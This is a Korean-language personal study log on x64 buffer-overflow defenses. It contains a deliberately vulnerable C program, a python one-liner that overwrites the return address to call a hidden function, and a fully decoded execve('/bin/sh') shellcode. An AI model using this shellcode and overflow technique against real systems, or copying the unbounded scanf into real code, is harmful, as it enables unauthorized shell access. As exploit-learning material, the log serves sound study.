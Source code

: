 # 📅 YYYY.MM.DD Study Log

## 📌 오늘 배운 개념 요약

- 
- 
- 

---

## ✅ Buffer Overflow 방어 기술 (정리 예시)

###rax, rbx, rsp, rbp 를 배웠다.


##x64 환경에서 존재하는 BOF 방어 기법들
1. **Canary** => sfp,ret 의 정보를 저장할 때, bof공격으로 덮어씌어지는 것을 방지하기 위해 sfp와 buffer 사이에 임의의 값을 추가함. 이게 변조된다? ==> bof로 탐지.
3. **ASLR**(Address Space Layout Randomization) ==> 메모리 랜덤화.
4. **PIE**(Position Independent Execution)
5. **NX**(Non excutable)

![image](https://github.com/user-attachments/assets/2c709cf7-8554-41fd-89d6-5c266a306a07)
![image](https://github.com/user-attachments/assets/d963f3ad-1d72-4610-b77e-2642e1d5ccee)


#include <stdio.h>

void secret(){
        printf("You hacked me!\n");
}
int main(){
        char buf[64];

        printf("Input: ");
        scanf("%s", buf);

        printf("You typed: %s\n", buf);

        return 0;
}


해당 코드의 scanf의 취약점을 활용하려 bof를 시도했다.
조건 

$gcc -g -fno-stack-protector -no-pie -o bof1 bof1.c
==> canary, aslr

파일에 설정된 보호기법 확인?
checksec --file=파일명

payload 작성
buffer[64] + SFP[8] + 덮어쓸 주소[8]

gdb ./bof1
p $secret ==> secret 함수의 주소를 찾음.
python3 -c 'print("A"*64 + "B"*8 + "해당 주소")' | ./bof1
//출력: You hacked me!  

확인해보니 NX가 켜져있다. 다만 NX는 스택에서 실행되는 쉘코드를 막는 것! 나는 그냥 주소만 넣었을 뿐.




머신코드?
\x48\x31\xc0\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05


***\x48\x31\xc0***  
\x48 ==> REX prefix ==> 64비트 연산한다. rax rbx 쓸거다?  
\x31 ==> opcode 
\xc0 ==> ModR/M 바이트. (rax 두개 쓸거다
       =xor rax, rax
       
***\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00***
\x48 ==> REX prefix
\xbb ==> mov r64,imm64  OR  mov r32,imm32      ==> 미리 prifix 해두었기에 movabs rbx, imm64 (만약 없으면 32bit로 쓰임)
\x2f\x62\x69\x6e\x2f\x73\x68\x00 ==> 리틀엔디언으로 '/bin/sh\0'
       =movabs rbx, 0x0068732f6e69622f
***\x53***
\x53 ==> push rbx (리틀엔디언 형식으로 저장!!! )
       = push rbx
***\x48\x89\xe7***
\x48
\x89 ==> mov r/m64, r64 "오른쪽 레지스터 값을 왼쪽에 복사."
\xe7 ==> 11100111 mod = 11, reg = 100, rsp = 111
       = mov rdi, rsp (rdi 레지스터에 /bin/sh 문자열의 주소를 넣음)
(참고자료)
![image](https://github.com/user-attachments/assets/00e78af8-872f-436e-aa93-639cd4fa5b7d)
![image](https://github.com/user-attachments/assets/1ab48fb3-2ebc-4576-b025-982a90972a25)

EAX	ECX	EDX	EBX	ESP	EBP	ESI	EDI
000	001	010	011	100	101	110	111

      
***\x48\x31\xf6***
\x48 익숙하죠?
\x31 ==> opcode xor r/m64, r64
\xf6 ==> 11110110 mod = 11, reg = 000???, rm = 110
       = xor rsi, rsi (rsi 레지스터를 0으로 초기화 = execve의 두번째 인자 NULL)

***\x48\x31\xd2***
\x48
\x31
\xd2 ==> mod = 11010010 mod = 11, reg = 010, rm = 010
      = xor rdx, rdx (rdx 레지스터를 0으로 초기화 = 3번째 인자 NULL)
***\xb0\x3b***
\xb0 ==> mov al, immm8 (8비트를 al에 넣는다.)
\x3b ==> 59(system call number 59.== execve)
      = mov al, 0x3b

시스템콜 넘버는
/usr/include/x86_64-linux-gnu/asm/unistd_64.h 여기서  cat해서 찾아보면 됨.

***\x0f\x05***
      = syscall (opcode)

모두 합치면?
xor rax, rax
movabs rbx,  0x0068732f6e69622f
push rbx
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov al, 0x3b
syscall 




---

## 🧠 오늘의 느낀 점 ☑️


---
## ❓ 오늘의 궁금한 점 🔍


---

## 🔖 내일 목표 🎯

- [ ] CTF 문제 1개 풀고 write-up 작성
- [ ] 오늘의 궁금한 점 중 1개는 gdb로 실험
- [ ] 쉘코드 흐름 복습 및 시각화 정리


